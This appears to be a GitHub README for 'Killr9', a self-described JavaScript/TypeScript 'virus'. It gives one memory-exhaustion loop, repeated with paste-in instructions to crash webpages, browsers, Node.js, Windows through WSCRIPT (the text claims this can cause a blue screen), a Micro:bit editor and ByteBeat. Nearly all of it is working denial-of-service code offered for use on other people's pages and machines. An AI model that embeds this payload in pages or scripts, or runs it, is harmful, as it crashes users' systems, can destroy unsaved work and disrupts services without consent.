 # Killr9
A JavaScript/TypeScript virus that will kill virtually anything


Platforms it has effect on:
* Google Chrome/Chromium-based browsers
* NodeJS
* Any version of Windows(via WSCRIPT.EXE)
* BBC Micro:bit(MakeCode Editor)
* Internet Explorer
* IEMode in Edge (kills IEChooser at the same time)


## Kill a webpage
Paste the JS code inside of a script tag.
```html
<script>
  function ohSnap() {
  var corruptable=[]
  for(var i=0;i<(9999999*999999999999999999999);i++) {
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
  }
}

ohSnap()
</script>
```

You can also link it like so:
```html
<script src="path/to/killr.js"></script>
```

## Kill a Windows96 instance
Create a WRT bin:
```js
//!wrt
function ohSnap() {
  var corruptable=[]
  for(var i=0;i<(9999999*999999999999999999999);i++) {
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
  }
}

ohSnap()
```

## Kill the BBC Micro:bit
Open the makecode editor at https://makecode.microbit.org/, create a project, and paste the typescript in:
```ts
function ohSnap () {
    for (let i = 0; i <= (9999999 * 999999999999999999999) - 1; i++) {
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
    }
}
let corruptable: number[] = []
corruptable = []
ohSnap()
```

## Killing NodeJS and Windows98+
The standalone JavaScript works well.
```js
function ohSnap() {
  var corruptable=[]
  for(var i=0;i<(9999999*999999999999999999999);i++) {
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
  }
}

ohSnap()
```
Pasting it into NodeJS will result in NodeJS crashing.
If you're using a NodeJS Repl on [Replit](https://replit.com/), you might see text saying `The Repl proccess died unexpectedly`.
To Kill Windows98 or above, open the MS-DOS prompt. Make sure you have Windows Script Host by running WSCRIPT.EXE. If it shows WSH settings, close them and run `WSCRIPT.EXE path/to/killr.js`.
Your computer will lag, crash, keep the fan on, and depending on the computer and how much RAM is already in use, BSOD(Blue screen of death).

# Killing HTML5 ByteBeat

ByteBeat removes newlines, so you'll need semi-colons. It'll need to be in a function, also.
```js
(function(){
function ohSnap() {
  var corruptable=[];
  for(var i=0;i<(9999999*999999999999999999999);i++) {
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
  }
}

ohSnap();
})()
